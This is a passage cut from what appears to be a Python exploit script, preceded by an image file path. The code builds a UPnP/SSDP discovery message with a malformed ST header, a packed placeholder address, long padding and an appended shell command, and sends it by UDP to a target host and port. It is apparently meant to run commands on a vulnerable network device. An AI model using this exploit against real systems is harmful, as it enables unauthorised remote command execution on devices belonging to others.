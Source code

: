 ```py
        b'ST:uuid:schemas:device:' + payload + b':\x00\r\n'
        b'\r\n'
    ) + p32(0xdeadbeef) + (b" " * 255) + cmd.encode()

    with socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP) as sock:
        sock.settimeout(2)
        sock.sendto(message, (host, target_port))
```
